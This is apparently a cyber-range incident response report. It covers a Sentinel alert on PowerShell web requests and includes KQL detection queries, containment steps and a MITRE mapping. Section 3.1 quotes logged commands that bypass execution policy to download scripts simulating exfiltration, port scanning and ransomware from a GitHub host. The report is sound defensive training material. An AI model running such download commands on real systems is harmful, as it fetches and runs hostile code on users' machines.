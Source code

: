 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-61 Compliant)

---

## 1. Overview & Explanation
A security alert was generated when **PowerShell** invoked the `Invoke-WebRequest` command to download multiple suspicious scripts from a **GitHub** repository. This tactic is often seen in **post-exploitation** scenarios, where attackers use legitimate system utilities like **PowerShell** to evade defenses and retrieve malicious payloads. By blending in with normal Windows processes, they can deploy backdoors, exfiltrate data, or run malicious scripts with minimal detection.

In this case, logs from **Microsoft Defender for Endpoint (MDE)** and **Microsoft Sentinel** showed four separate script downloads from **windows-target-1**. Further analysis confirmed these scripts had also been **executed** locally. Following NIST 800-61 guidelines, the incident was triaged, contained, eradicated, and lessons learned were documented.

---

## 2. Detection & Alert Rule Creation
### 2.1 Sentinel Alert Configuration
**Alert Name**: “PowerShell Suspicious Web Request”  
**Condition**: Triggers when `Invoke-WebRequest` is used to download files from an external domain.  
**Data Source**: DeviceProcessEvents in MDE, forwarded to Sentinel via **Log Analytics Workspace**.

This section includes screenshots of the alert creation, KQL used, rules for the alert.

After its creation, the alert is triggered, I then showcase myself assigning the alert to myself, opening and working the case, then showcasing the mapped entities in the **"Investigation"** tab

```kql
// Identify PowerShell commands downloading scripts from external sources
DeviceProcessEvents
| where DeviceName contains "windows-target-1"
| where InitiatingProcessCommandLine contains "invoke-webrequest"
| project TimeGenerated, AccountName, ActionType, DeviceName, FileName, 
         FolderPath, InitiatingProcessCommandLine, SHA256
| order by TimeGenerated desc
```
![Alert Creation](images/Alert-Creation.png)

![Sentinel Rule Creation 1](images/Sentinel-Rule-Creation1.png)

![Sentinel Rule Creation 2](images/Sentinel-Rule-Creation2.png)

![Sentinel Investigation](images/Sentinel-Investigation.png)

![Sentinel Entity Mapping](images/Sentinel-Entity-Mapping.png)
Result: An incident was created for further investigation.

---

## 3. Incident Analysis
### 3.1 Process Events
Upon investigating the alert, the following commands were identified:

```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 
  -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 
  -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 
  -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 
  -OutFile C:\programdata\pwncrypt.ps1
```

The user later confirmed they had clicked on a link to download free software around the same time the alert was generated, saw a “black screen pop up and then nothing happened,” unaware the scripts had downloaded and executed in the background.

### 3.2 Script Execution Confirmation
A follow-up query revealed the same scripts had also been run locally:

```
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where ProcessCommandLine contains "-File" 
      and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

![Malicious Scripts](images/Malicious-Scripts.png)

### 3.3 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

![Browserling](images/Browserling.png)

#### One-Line Descriptions of Each Script:

- **[View "portscan" script ➡](scripts/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[View "eicar" script ➡](scripts/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[View "exfiltratedata" script ➡](scripts/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[View "pwncrypt" script ➡](scripts/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

Finding: This indicates an active malicious or test scenario, as scripts were successfully invoked on the system.

---

## 4. Containment, Eradication, & Recovery
### 4.1 Containment Actions
Device Isolation

Used Microsoft Defender for Endpoint to isolate the target (windows-target-1), cutting off external attacker communication.

Comprehensive AV Scan

Ran a full antivirus scan to detect and remove potential malware associated with the downloaded scripts.

![Isolation](images/Isolation.png)

### 4.2 Eradication Steps
Reimaging & Redeployment

Restored the machine from a known-good backup to ensure all malicious artifacts were removed.

### 4.3 Recovery Measures

#### Security Awareness Training
Enrolled the affected user in KnowBe4 advanced training for phishing and malicious link recognition.

#### Policy Updates
Restricted PowerShell usage to administrative accounts only.

Created a new rule preventing Invoke-WebRequest for non-privileged users.

---

## 5. Post-Incident Activities
#### Lessons Learned
Reinforced user education on suspicious links.

Identified a policy gap allowing unprivileged PowerShell downloads.

#### Policy Enforcement
Implemented new controls restricting remote download commands.

Elevated overall logging and alert thresholds for external script pulls.

#### Incident Closure
Verified all malicious scripts and processes were removed.

Closed the Sentinel incident as “True Positive.”

---

## 6. Conclusion
The detection of PowerShell Invoke-WebRequest commands downloading four malicious scripts triggered a Sentinel alert. Investigation confirmed both the download and execution of the scripts, marking a successful infiltration attempt. Quick device isolation and thorough scanning limited damage. Post-incident actions included reimaging the machine, updating security policies, and enhancing user training to mitigate future threats. By following NIST 800-61 practices, this incident was effectively contained, eradicated, and used as an opportunity to strengthen overall cybersecurity posture.

---

## 7. MITRE ATT&CK TTPs
**T1059.001 (Command & Scripting Interpreter:** PowerShell)	Attacker utilized PowerShell commands (Invoke-WebRequest) to download and execute payloads.

**T1105 (Ingress Tool Transfer):**	Scripts/payloads transferred from an external source (GitHub) onto the target system.

**T1027 (Obfuscated Files or Information):**	Potential script obfuscation, bypass of security policies, and stealthy use of PowerShell.
